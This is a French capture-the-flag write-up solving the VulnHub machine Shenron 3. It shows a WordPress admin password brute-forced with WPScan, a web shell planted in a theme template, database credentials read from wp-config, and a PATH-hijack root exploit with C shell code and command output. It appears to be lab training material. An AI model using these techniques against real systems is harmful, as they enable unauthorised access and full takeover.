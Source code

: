 ```yaml
---
title: "Solution du CTF Shenron 3 de VulnHub"
tags: [CTF, VulnHub]
---
```


Dernier épisode (à ce jour) de la série, [shenron: 3](https://vulnhub.com/entry/shenron-3,682/) est un CTF téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.56.62
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: shenron-3 | Just another WordPress site
|_http-generator: WordPress 4.6
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Une énumération à l'aide de `WPscan` sur le Wordpress ne ressort aucune information intéressante.

## Le bon, la brute et le webshell

Une énumération web ne trouvant aucun fichier particulier, je me décide de bruteforcer le compte admin du Wordpress :

```bash
$ docker run -v /tools/wordlists:/wordlists --add-host shenron:192.168.56.62 -it --rm wpscanteam/wpscan --url http://shenron/ -U admin -P /wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

--- snip ---

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / iloverockyou                                                                                                                                                                                  
Trying admin / ilovephil Time: 00:04:51 <                                                                                                                               > (31535 / 14375925)  0.21%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: iloverockyou
```

Ca a pris un bon paquet de minutes mais ce fut utile :)

Une fois connecté sur l'interface du Wordpress je vais dans *Appeareance > Editor* puis j'édite le template pour les erreurs 404.

Je rajoute mon code dedans, il ne reste plus qu'à demander un article de blog invalide avec ma commande en paramètre:

`http://shenron/index.php/2048?cmd=id` qui retourne `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Une fois récupéré mon shell je commence par récupérer les identifiants de BDD dans `wp-config.php` :

```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'Wordpress@123');
```

Il n'y a qu'un seul utilisateur dans la table `wp_users` et comme on connait le mot de passe, ça n'a aucune utilité.

Après avoir fouillé rapidement je ne remarque rien de particulier sur le système.

Je tente le mot de passe `iloverockyou` pour l'utilisateur `shenron` et bingo, ça fonctionne !

## A l'ancienne

Il y a deux fichiers notables dans le dossier personnel de l'utilisateur :

```
-rwx------ 1 shenron shenron    33 Apr 16  2021 local.txt
-rwsr-xr-x 1 root    root    16712 Apr 15  2021 network
```

Le premier est bien sûr le flag (`a57e2ff676cd040d58b375f686c7cedc`)  et l'autre est un binaire setuid root qui semble appeller `netstat` (extraits choisis du hexdump) :

```
00000400  00 00 00 00 00 00 00 00  00 73 65 74 75 69 64 00  |.........setuid.|
00000410  73 79 73 74 65 6d 00 5f  5f 63 78 61 5f 66 69 6e  |system.__cxa_fin|
00000420  61 6c 69 7a 65 00 73 65  74 67 69 64 00 5f 5f 6c  |alize.setgid.__l|
00000430  69 62 63 5f 73 74 61 72  74 5f 6d 61 69 6e 00 6c  |ibc_start_main.l|
00000440  69 62 63 2e 73 6f 2e 36  00 47 4c 49 42 43 5f 32  |ibc.so.6.GLIBC_2|
00000450  2e 32 2e 35 00 5f 49 54  4d 5f 64 65 72 65 67 69  |.2.5._ITM_deregi|
00000460  73 74 65 72 54 4d 43 6c  6f 6e 65 54 61 62 6c 65  |sterTMCloneTable|
00000470  00 5f 5f 67 6d 6f 6e 5f  73 74 61 72 74 5f 5f 00  |.__gmon_start__.|
00000480  5f 49 54 4d 5f 72 65 67  69 73 74 65 72 54 4d 43  |_ITM_registerTMC|
00000490  6c 6f 6e 65 54 61 62 6c  65 00 00 00 00 00 02 00  |loneTable.......|

00002000  01 00 02 00 6e 65 74 73  74 61 74 20 2d 6e 6c 74  |....netstat -nlt|
00002010  75 70 00 00 01 1b 03 3b  38 00 00 00 06 00 00 00  |up.....;8.......|
```

On est sur une faille classique de PATH relatif. La problématique c'est que `netstat` est appelé avec des options spécifiques donc si on fait appeller `bash` à la place de `netstat`, `bash` quittera en indiquant qu'une option est invalide.

On doit donc écrire notre propre code qui nous donnera un shell sans tenir compte des options :

```c
#include <unistd.h>
#include <stdlib.h>

int main(char *argv[]) {
  setreuid(0, 0);
  setregid(0, 0);
  system("/bin/dash -p");
  return 0;
}
```

Je le compile en static depuis ma machine car `gcc` n'est pas sur la VM puis je le dépose dans `/tmp`.

```bash
shenron@shenron:~$ cp /tmp/gotroot netstat
shenron@shenron:~$ export PATH=.:$PATH
shenron@shenron:~$ ./network
# id
uid=0(root) gid=0(root) groups=0(root),1000(shenron)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                 mmmm 
 #"   " # mm    mmm   m mm    m mm   mmm   m mm          "   "#
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           mmm"
     "# #   #  #""""  #   #   #     #   #  #   #   """       "#
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         "mmm#"
                                                               
Your Root Flag Is Here :- a7ed78963dffd9450a34fcc4a0eecb98

Keep Supporting Me. ;-)
```

*Publié le 18 novembre 2022*
